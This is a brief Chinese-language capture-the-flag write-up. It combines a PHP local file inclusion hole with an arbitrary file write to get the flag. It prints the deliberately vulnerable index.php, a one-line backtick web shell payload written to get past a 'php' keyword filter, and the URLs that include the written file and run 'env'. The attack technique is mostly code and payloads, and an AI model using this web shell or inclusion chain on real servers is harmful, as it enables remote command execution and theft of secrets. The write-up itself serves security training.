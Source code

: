 利用文件包含和文件写入漏洞获取flag。

打开目标网址`http://ip:port`，网页打印`index.php`的内容：
```php
<?php
    highlight_file("index.php");
    // flag在环境变量$flag中

    if (isset($_GET['file'])) {
        include_once($_GET['file']);
    }

    $content = $_GET['content'];
    if (strpos($content, "php") === 0 || strpos($content, "php") || (!isset($content) && !isset($_GET['file']) )) {
        die("byebye");
    }

    if (isset($content)) {
        $path = "/tmp/".md5(time()).".txt";
        echo $path;
        file_put_contents($path, $content);
    }

?>
```

得知可以将内容写入/tmp/目录下的随机文件名，注意要绕过过滤规则：内容不能以"php"开头或包含"php"字符串。

构造以下URL：
```
http://ip:port/?content=<?=`$_GET[0]`?>
```

服务器返回写入的文件路径：
```
/tmp/d98c6b018074d2ed1546af26574458f7.txt
```

使用获取到的文件路径，通过file参数包含该文件，并传入要执行的命令（显示所有环境变量），从而获取FLAG：
```
http://124.16.75.117:51001/?file=/tmp/d077f...txt&0=env
```